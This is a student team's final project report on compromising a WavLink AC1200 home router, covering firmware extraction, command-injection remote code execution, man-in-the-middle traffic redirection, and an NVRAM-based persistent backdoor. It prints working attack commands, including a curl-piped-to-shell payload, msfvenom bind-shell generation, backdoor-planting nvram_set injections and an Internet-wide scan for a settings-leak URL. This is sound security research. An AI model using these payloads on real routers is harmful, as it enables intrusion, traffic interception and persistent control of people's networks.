---
title: "ENM664 - Final Project"
author: ["Brandon Altvater UID: 116382083", "Jonathan Luck UID: 117600339","Bhagvat Giri UID: 117507249", "James Ng UID: 115820395"]
footer-left: "Brandon Altvater, Jonathan Luck, Bhagvat Giri, and James Ng"
date: "2022-05-10"
subject: "Markdown"
keywords: [Markdown, UMD, Hacking, Report]
subtitle: "Group 5 - WavLink Router Exploitation"
lang: "en"
titlepage: true
titlepage-color: "DC143C"
titlepage-text-color: "000000"
titlepage-rule-color: "000000"
titlepage-rule-height: 2
titlepage-background: "images/background9.pdf"
book: true
classoption: oneside
code-block-font-size: \scriptsize
...
# ENPM664 - Final Report

## Executive Summary
This project aims to remotely compromise a home router (WavLink WN530HG4 AC1200) by extracting and analyzing the firmware. After compromising the router, the determination to perform man-in-the-middle attacks to manipulate traffic creates a persistent backdoor. If time permits, we also plan to perform Internet scans to determine how many devices our exploit affects.



## Team Background
**James Ng** - Application Security Engineer based in NJ working for payment-processing platform provider doing DevOps and interactive & dynamic application scan testing (IAST/DAST).

**Brandon Altvater** - BS in Computer Science and BA in Communications, both from Salisbury University. He worked in Defense Contracting for over ten years - the last 6 in software development and cyber security. Additionally, he worked on the defensive cyber operations side of the US Army for a year. Holds Sec+, CySA+, GWAPT, and working towards passing the OSCP.

**Jonathan Luck** - BS in Computer Science from University of California, San Diego. He is currently doing cyber stuff for the Department of Justice.

**Bhagvat Giri** - BS in Computer Engineering, from Vishwakarma Engineering College, India. Currently a full-time Cybersecurity Master's student at the University of Maryland College Park. Holds CEH and CEPT certificates and aims to get the OSCP certification too. Cybersecurity enthusiast with experience as a cyber security analyst from an internship. Also participates in platforms like HackTheBox, TryHackMe, and HackerOne. He enjoys finding different vulnerabilities in web applications and exploiting them with various approaches.

## Project Background & Related Work
A router is a device that forwards traffic between networks. Typically, a home router allows devices in your home to connect to the Internet. Most home routers will also provide WiFi access. Given the proliferation of low-power, high-performance processors, router manufacturers have started using embedded Linux to cut development time and costs.[^1] Crucially, home routers also provide network address translation (NAT) while forwarding traffic. NAT allows non-routable IP addresses on the LAN to access public IPs transparently.



Recently, hacking groups such as Sandworm have infected over half a million routers in over 50 countries to perform attacks that can collect your internet traffic information, block traffic, and even render the router inoperable.[^2] Other attacks on routers have injected ads[^3], cryptomining[^4], and adding the router as a zombie in a botnet for DDoSing or other monetization.[^5]

Previous work has been done on extracting firmware images through UART, and other debug interfaces.[^6] However, we cannot find open-source research on extracting firmware from the WavLink line of devices. Similarly, previous work has been done on modifying router firmware images with backdoors[^7], and we would like to extend this work to this WavLink device.

We performed a preliminary triage of this device after submitting our initial proposal. On March 29th, we discovered an authenticated shell injection vulnerability. However, the vulnerability was independently discovered[^8] and released on April 6th. It was assigned CVE-2022-23900. While the vulnerability was reported in a different WavLink model, it looks to be the same shell injection we found.

Previous work has been done against this WavLink model[^9]; however, that work appears to be against an earlier firmware version. Therefore, we are interested in attacks against the latest firmware version.

Zmap[^10] is a tool created at the University of Michigan. It is widely used in scenarios like port scanning the entire IPv4 space or TLS certificate analysis in academic research. 

[^1]:https://openwrt.org/ 
[^2]:https://us.norton.com/internetsecurity-emerging-threats-vpnfilter-malware-targets-over-500000-routers.html
[^3]:https://www.bleepingcomputer.com/news/security/malvertising-campaign-infects-your-router-instead-of-your-browser/ 
[^4]:https://www.forbes.com/sites/leemathews/2018/08/03/200000-routers-turned-into-mindless-crypto-coin-mining-zombies
[^5]:https://krebsonsecurity.com/2015/01/lizard-stresser-runs-on-hacked-home-routers/ 
[^6]:https://cybergibbons.com/hardware-hacking/recovering-firmware-through-u-boot/ 
[^7]:https://www.secjuice.com/backdooring-dlink-router-firmware/ 
[^8]:https://stigward.medium.com/wavlink-command-injection-cve-2022-23900-51988f6f15df 
[^9]:https://cerne.xyz/assets/reports/report_wavlink.pdf 
[^10]:https://zmap.io/ 

## Project Description
We plan to compromise a home-grade wireless router: WavLink AC1200. First, we will use information gained through hardware interfaces to extract its firmware. After that, we will perform a vulnerability research (VR) phase. Finally, we hope to leverage the extracted firmware image to create a proof-of-concept remote exploit against the router on either the LAN or the WAN interfaces.

We plan to utilize the remote code execution (RCE) exploit to perform man-in-the-middle (MiTM) attacks in the post-exploitation phase. This will allow us to redirect computers to different websites (non-HTTPS) or sinkhole traffic to specific websites. Furthermore, the firmware does not appear to have a digital signature. Therefore, we will attempt to use our access to craft and flash a backdoored firmware image.

The exploits should provide unauthenticated RCE. If attacking from the LAN, we will assume that we have valid credentials to the WiFi network but that we will not have credentials for administrative interfaces on the router. The group will perform all tests against the latest firmware versions of these routers, and we will attempt to find novel vulnerabilities that have not already been published.

If time permits, we would also like to perform Internet scans to determine how many devices are vulnerable to the exploit we find.

Each group member will purchase a WavLink AC1200 router so that all group members have access to the hardware, and there are multiple backups if we brick a device or receive it Dead On Arrival (DOA). This will also allow us to work in parallel.

Note: the original proposal for this project was for two routers, but since we will have significantly less available work time, we decided to narrow the focus of this project to just the WavLink router, as TP-Links, in general, have had a lot of previous work.

## Project Timeline
Assuming we get approval and we all receive our devices by April 15th, the plan is as follows:

* Firmware/binary extraction: April 15th - 19th.  
        *If it is not feasible to extract the firmware in the allotted time, we will use the firmware on the manufacturer's website to stay on track for the rest of the project.*  
* Vulnerability Research (VR): April 19th - April 30th.  
        *If we approach the end of the VR period and have not found an unauthenticated vulnerability, we will try searching for authenticated RCE exploits. If we are still unable to find any exploits, we will utilize CVE-2022–23900 (as we independently discovered it).*  
* Post-exploitation: April 30th - May 4th.
* Recording demo videos and creating a final presentation: May 5th - 9th.

If we have to start later, we may skip extracting firmware/binaries from hardware and move directly to the VR phase. On the other hand, if we can begin earlier, The group will add extra time to the VR and post-exploitation stages.

# Project Results

## Hardware Analysis
The main microprocessor that was installed on the WavLink was the MT7620A chip. Then the chip is a MediaTek system on chip (SoC) designed for networking devices. The chip has a 32-bit MIPS single-core processor, a "Network accelerator" that supposedly has a 2 Gbps throughput. The chip is limited in RAM with only 64 MB max of SDRAM and 256 MB of DDR2. This tiny amount of RAM means that when designing payloads, we must be reasonable about the size of our payloads. The board also supports JTAG and UART, the entry point for analyzing the board's functionality and providing some form of access.

After analyzing four vias, we found that it was safe to say that the vias were for the UART TTL. Analysis showed the following:

* Tx: varies, but never goes above 3.3V
* Rx: 0V
* GND: 0V
* VCC: 3.3V

Soldering pins onto the UART vias allowed us to see what output displayed through the port.  



After brute-forcing the baud rate instead of using a logic analyzer, it was found that there was a U-boot output over the UART connection, with the option to halt the boot process and get into a U-boot shell. The router printed some essential information on the screen, and we found the address of the `0x40` byte U-boot image header and the address + length of the firmware image. Remember that we only have 64 MB of RAM to work with when crafting a payload.



## Firmware Extraction
The process for firmware extraction was to halt the U-boot process and examine the memory, and the team determined that that image was booting at `0xbc050000` and encoded in LZMA.



We extracted the entire firmware image with the tool *mdl* was used to extract the entire firmware image. For the hex dump format, each byte is represented by at least three *(two hex digits and a printed representation)*. After the address is added in, the spaces between groups of bytes are accounted for, and the newlines the math comes out to be 67 bytes per 16 bytes or roughly a 4.2:1 ratio. The firmware is functionally 4.2 * 5.3 MB = 22MB 57600 baud is ~57kbps.


## Firmware Analysis

After successfully executing the firmware, we used the tool *binwalk* to find the firmware filesystem.




Right now, our attack surface is limited to unauthenticated endpoints on the web interface and any other network applications the device is running. We want to expand that attack surface to include authenticated interfaces. The CVE-2020-10973 exploit already found for this device is for *Unauthenticated settings export* and is still present in the latest firmware. The device settings, including plaintext usernames and passwords, are encrypted using a static password (the password is visible after unpacking the firmware). We didn't realize this was already publicly disclosed until after discovering it. You can see the encryption scheme and plaintext password after triggering the settings export, collecting the results, and decrypting them.




We are using this technique to access the router's administrative web interface. Any authenticated RCE functionally becomes unauthenticated RCE.


## Remote Code Execution (RCE)

Given our lack of experience with writing MIPS buffer overflows, finding a shell injection would be one of the easiest ways. Unfortunately, many of the cgi binaries have calls to `system()` and `popen()`, both of which are vulnerable to shell injections. `do_system()` is also called, which wraps `system()`, making these calls also vulnerable.



For a proof of concept (POC), we decided to execute the ping test in the adm.cgi to see if we could get a callback from our target machine to our "attacking" client machine. We were successful.


After the great feeling that we were able to get this ping test functionality back to our "attack" machine, we soon found out that someone published this vulnerability about one week afterward.


Going back to the drawing board, we also decided to use the password change functionality in the adm.cgi file. The thought process was that if we make the injected command hang infinitely, we won't change the password.




## Man-in-the-Middle (MiTM)
Now that we have remote shell access, we can use the router to perform man-in-the-middle (MITM) attacks. Luckily, the router uses iptables instead of proprietary routing/firewall code. We show that we can redirect HTTP traffic, but the attacker could also use this to block/sinkhole traffic.


Further explanation of what is happening is that we are inserting a rule into the PREROUTING chain. This tells iptables to perform some action on a packet before making a routing decision. We then tell it to search for TCP/80 traffic going to 10.1.0.50; if it finds traffic that matches, we tell it to perform a destination NAT (DNAT) and rewrite the destination to be 10.0.0.70. Responses from XXX.XXX.XXX.70 will be transparently rewritten to appear as if they came from XXX.XXX.XXX.50. We ran the following command:

```bash
iptables -t nat -i br0 -I PREROUTING -p tcp --dport 80 -d 10.1.0.50 -j DNAT --to 10.1.0.70
```


## Persistent Backdoor
The firmware doesn't have cryptographic signatures, so we attempted to modify the firmware. Unfortunately, firmware-mod-kit did not work in this case, and neither does manually unpacking and re-packing.




If we can't easily modify the firmware (which is in flash memory), how else can we store data persistently? The router stores user/system configurations in non-volatile RAM (NVRAM); therefore, if we can find another buffer overflow/shell injection with how NVRAM variables are used, we can get a persistent(ish) backdoor. But will the persistence survive a reboot and firmware update, and will it survive a factory reset? Another option could be to use the password check functionality in login.cgi. The password is salted and hashed on the client-side before being sent to the router. The router needs to hash the plaintext password with the same hash for comparison, and it does this by echoing the salt+password combo into md5sum as a shell command. There's probably also a buffer overflow in the strcpy/strcat, as salt is user-controlled, and NVRAM variables can be at least 500 bytes long, but due to limited time, we decided not to go that route.  

In the analysis, the payload that needs to be crafted would have to close the single quotes so we can run a shell command, then re-open them, so the command doesn't fail.



In execution, the four NVRAM variables have to be overwritten:

* Two will store the bind shell in a hex-encoded form.
* One will store a script to combine, decode, and write out the bind shell to a file. It will also write a simple shell script with an infinite loop to run the bind shell.
* The password variable will store a shell injection that will run the script.

Given we already have access to the previous RCE vulnerability, writing these NVRAM variables isn't too hard; the manufacturer uses command-line utilities to get and set NVRAM values:

```bash
nvram_get 2860 Password and  nvram_set 2860 Password abcd1234
```

Generate the bind shell with msfvenom, as that will produce a bind shell about 300 bytes long, much smaller than writing/compiling one ourselves.

```bash
msfvenom -p linux/mipsle/shell_bind_tcp RHOST=0.0.0.0 LPORT=45678 -f elf > bind_shell
```


## Internet Survey
We discovered that some botnets have started to include IoT devices and home routers. Home routers are particularly easy to find, as they must have a public IP to route Internet traffic. To create a botnet, we want to know if an attacker can use these RCE vulnerabilities (both the zero-day we found and previous unpatched vulnerabilities). With the tool *zmap*, you can scan a random set of IPv4s to find devices with TCP/80 exposed to the Internet, and with *zgrab*, the application-layer scanner that we use to request the web interface of previously identified IPv4 hosts. By simply making a request/search `/cgi-bin/ExportAllSettings.sh`, the information disclosure/unauthenticated settings export URL.  

We performed four independent Zmap scans, finding ~527,000 unique hosts with TCP/80 open, followed by Zgrab. Unfortunately, only one host replied with a response suggesting it was a Wavlink router. This might have been a problem with our methodology, as we did not get as many hosts responding to TCP/80 as the authors of the original Zmap paper did. On the other hand, botnet creators probably won't waste their time with so few routers with exposed web interfaces.

### Zmap 
We performed four zmap internet scans, one from an AWS instance, one from an Azure instance, and two more from home Internet connections.

```bash
sudo zmap -n 429496729 -B 20M -p 80 -o out.txt -b /etc/zmap/blacklist.conf
```

We combined the scans (see combine.sh) into a single IP list resulting in a combined list of approximately 526,885 unique IP addresses that expose TCP/80 to the Internet. This combined list was fed into zgrab to make HTTP requests for the URL for the unauthenticated settings export.

```bash
cat ~/combined_deduped.txt | ./zgrab2 --output-file test.json http --endpoint="/cgi-bin/ExportAllSettings.sh"

grep 'backupsettings.dat' test.json
```

We only found one instance of the HTTP interface exposed on the WAN side.

```JSON
{
  "ip": "REDACTED",
  "data": {
    "http": {
      "status": "success",
      "protocol": "http",
      "result": {
        "response": {
          "status_line": "200 OK",
          "status_code": 200,
          "protocol": {
            "name": "HTTP/1.1",
            "major": 1,
            "minor": 1
          },
          "headers": {
            "content_length": [
              "83"
            ],
            "date": [
              "Fri, 06 May 2022 17:46:00 GMT"
            ],
            "server": [
              "lighttpd"
            ]
          },
          "body": "\n<HTML>\n\n<meta http-equiv=\"Refresh\" content=\"1; url=/backupsettings.dat\">\n\n</HTML>\n",
          "body_sha256": "f37f89bd853d09a5f794981f3e057be57e853d874acd53ecc992c76dd716389a",
          "content_length": 83,
          "request": {
            "url": {
              "scheme": "http",
              "host": "REDACTED",
              "path": "/cgi-bin/ExportAllSettings.sh"
            },
            "method": "GET",
            "headers": {
              "accept": [
                "*/*"
              ],
              "user_agent": [
                "Mozilla/5.0 zgrab/0.x"
              ]
            },
            "host": "REDACTED"
          }
        }
      },
      "timestamp": "2022-05-06T17:46:00Z"
    }
  }
}
```

The original zmap paper (https://zmap.io/paper.pdf) got a ~1.77% HTTP hit rate, while we got 0.02 - 0.04%. This suggests we may have had issues with performing the initial zmap scans. Assuming the actual rate is about 1.7%, we'd expect to see ~73 million hosts exposing HTTP to the Internet. We saw only one WavLink in ~527,000 HTTP hosts. Extrapolating that rate, we would only expect to see less than 140 WavLinks with web interfaces exposed to the Internet. Thus, it is unlikely any unpatched RCE in the web interface will pose a serious risk of creating a botnet.  

# Conclusion

## Future Work
If time allowed for more Analysis, it would have been worthwhile to look into the *wctrls* binary. This listens on UDP port 36338 and appears to allow developers to enable telnet at will. Next, there are some AES operations; the latest firmware version removes telnet but keeps the *wctrls* binary; lastly, there are many memory-cording buffers. So the potential for buffer overflows or wrong TLV parsing. Finally, investigating how the factory reset works, a set of default NVRAM values appears to be stored in a file. The question is, can this file be manipulated so that our NVRAM backdoor survives a factory reset?  

We could also look into how users can change their passwords. There are some strict comparisons between the stored NVRAM plaintext password and the "old password" during a password change, and our NVRAM backdoor prevents the user from changing their password. And lastly, we can spend more time investigating the discrepancy between our Zmap results and the original paper.  

# Appendix A: Project Artifacts 
The artifacts listed in this appendix are to give you the README file in one location. Therefore, each README will be listed under the header for the folder in which it is contained.

## curl_backdoor
### Persistant Backdoor Process

The following outlines the procedure to create a persistent backdoor. First, the authentication logic prepends a salt to the plaintext password stored on the router in the password authentication phase. It then echos that combined string to md5sum via a *shell command*.  
The shell command is roughly equivalent to:
```bash
system("echo -n '%s' | md5sum")
```
where the *%s* would be replaced with the salt/password combo.

Since we have already gained access through other RCE mechanisms, we can set the password on the router without going through the web UI, which disallows spaces and certain special characters. Instead, we run a *nvram_set* command, which is symlinked to the *ralink_init* binary, by running the following code:
```bash
nvram_set 2860 Password NewPassword123
```

We can set the password to a shell injection such that the final command looks something like:
```bash
system("echo -n '<salt>'<shell command>'' | md5sum")
```

Furthermore, we can have the shell command echo the user's original password. Thus regular web authentication will appear normal to the user. The command functionally becomes:
```bash
system("echo -n 'saltpassword' | md5sum")
```

*__Note:__ password changing makes a strict comparison between the plaintext passwords, so the user would be unable to change their password.*

Since the NVRAM on this device persists through reboots and firmware updates, the shell injection gets triggered on boot. While we cannot precisely determine which program starts it, we think it is the */bin/web* binary.
That binary uses the plaintext password from NVRAM and has similar constructs with shell commands to get md5 digests.

Each time a user tries to log into the web interface, this injection is triggered. This behavior provides an attacker a method to restart their (bind/reverse) shell on-demand. For CVE-2020-13117, this is the alleged exploitation location. However, after finding that CVE, we tried to replicate the shell injection through the salt via the web interface and were unable, as there now appears to be some filtering for single quotes.

## NVRAM_backdoor
### NVRAM Backdoor Method

This extension of the previous backdoor relied on *curl'ing* down a payload. The backdoor executed there would cause the login to fail if the web server was unavailable.

In this technique, the NVRAM stores the bind_shell. It utilizes two variables that appear unused and holds an encoded version of the bind shell in those variables.

```bash
nvram_set 2860 FW_CheckLink1 '\x7fELF\x01\x01\x01\0\0\0 ... '
nvram_set 2860 FW_CheckLink2 '\xa0\xaf% \x10\x02\xef\xff ... '
```

Next, place into NVRAM a script that writes out the bind shell to a file, executes it, and keeps executing it in a loop.

```bash
nvram_set 2860 DM_BA_SERVER_URL 'echo -n "Asdf123456"; if [ ! -f /tmp/nvram_bd ]; then echo -ne "`nvram_get 2860`
FW_CheckLink1`" > /tmp/nvram_bd; echo -ne "`nvram_get 2860 FW_CheckLink2`" >> /tmp/nvram_bd; chmod +x /tmp/nvram_bd;`
echo "while [ 1 -lt 2 ]; do /tmp/nvram_bd; sleep 10; done" > /tmp/nvram_bd_script; chmod +x /tmp/nvram_bd_script;`
sh /tmp/nvram_bd_script > /dev/null & fi '
```

The script also echos out the original password to stdout so that web logins succeed.

Lastly, we craft a value for Password in NVRAM that results in a shell injection. The shell script above runs as a result of the injection.

```bash
nvram_set 2860 Password "'\`sh -c \"\$(nvram_get 2860 DM_BA_SERVER_URL)\"\`'"
```

As with the curl-based persistent backdoor, the system will automatically trigger this shell injection while booting up.

## password_change_rce
### Finding a Zero-Day

The zero-day we found in the password change functionality.

*From adm.cgi in set_sys_adm:*


```C
pcVar3 = (char *)web_get("newpass",param_1,0);
...
iVar5 = strcmp(__s1,pcVar3);
if (iVar5 != 0) {
sprintf((char *)local_1a8,
        "echo -n %s:%s > /tmp/tmpchpw && /usr/sbin/chpasswd < /tmp/tmpchpw && rm -fr /tmp/tmpchpw"
        ,uVar1);
system((char *)local_1a8);
nvram_bufset(0,"Login",uVar1);
nvram_bufset(0,"Password",pcVar3);
```

Ghidra didn't perfectly decompile it, but the username and password are both passed to sprintf. The username is not user-controlled, but the password is.

Example payload: `curl http://192.168.10.100:8000/a | /bin/sh`

If doing the shell injection through the web GUI in a browser, the javascript detects that you have invalid chars in your password. Bypassing the normal function can be done by using the browser console to directly **POST** the form:

```javascript
document.getElementById("form2").submit()
```

We've included screenshots of our slack channel in the presentation if someone also finds and publishes this one. Those screenshots should show the date we first found this vulnerability.

## pingtest_rce
### Remote Code Execution (RCE)

We managed to find this RCE vulnerability on March 29th. Unfortunately, someone else discovered the same vulnerability and published it before this project was over: https://stigward.medium.com/wavlink-command-injection-cve-2022-23900-51988f6f15df.

However, unlike the Proof of Concept (POC) in that blog post, we thought to combine it with the unauthenticated settings export, so you can directly perform the shell injection instead of performing a Cross-Site Request Forgery (CSRF).

## zmap
### Zmap

We performed four zmap internet scans, one from an AWS instance, one from an Azure instance, and two more from different Internet connections.

```bash
sudo zmap -n 429496729 -B 20M -p 80 -o out.txt -b /etc/zmap/blacklist.conf
```

We combined the scans (see combine.sh) into a single IP list resulting in a combined list of approximately 526,885 unique IP addresses that expose TCP/80 to the Internet. Next, we fed that combined list into zgrab to make HTTP requests for the URL for the unauthenticated settings export.

```bash
cat ~/combined_deduped.txt | ./zgrab2 --output-file test.json http --endpoint="/cgi-bin/ExportAllSettings.sh"

grep 'backupsettings.dat' test.json
```

We only found one instance of the HTTP interface exposed on the WAN side.

```JSON
{
  "ip": "REDACTED",
  "data": {
    "http": {
      "status": "success",
      "protocol": "http",
      "result": {
        "response": {
          "status_line": "200 OK",
          "status_code": 200,
          "protocol": {
            "name": "HTTP/1.1",
            "major": 1,
            "minor": 1
          },
          "headers": {
            "content_length": [
              "83"
            ],
            "date": [
              "Fri, 06 May 2022 17:46:00 GMT"
            ],
            "server": [
              "lighttpd"
            ]
          },
          "body": "\n<HTML>\n\n<meta http-equiv=\"Refresh\" content=\"1; url=/backupsettings.dat\">\n\n</HTML>\n",
          "body_sha256": "f37f89bd853d09a5f794981f3e057be57e853d874acd53ecc992c76dd716389a",
          "content_length": 83,
          "request": {
            "url": {
              "scheme": "http",
              "host": "REDACTED",
              "path": "/cgi-bin/ExportAllSettings.sh"
            },
            "method": "GET",
            "headers": {
              "accept": [
                "*/*"
              ],
              "user_agent": [
                "Mozilla/5.0 zgrab/0.x"
              ]
            },
            "host": "REDACTED"
          }
        }
      },
      "timestamp": "2022-05-06T17:46:00Z"
    }
  }
}
```

The original zmap paper (https://zmap.io/paper.pdf) got a ~1.77% HTTP hit rate, while we got 0.02 - 0.04%. This suggests we may have had issues with how we performed the initial zmap scans. Assuming the actual rate is about 1.7%, we'd expect to see ~73 million hosts exposing HTTP to the Internet. We saw only one WavLink in ~527,000 HTTP hosts. Extrapolating that rate, we would only expect to see less than 140 Wavlinks with web interfaces exposed to the Internet. Thus, it is unlikely any unpatched RCE in the web interface will pose a serious risk of creating a botnet.

This makes sense as, by default, the web interface is not exposed on the WAN side.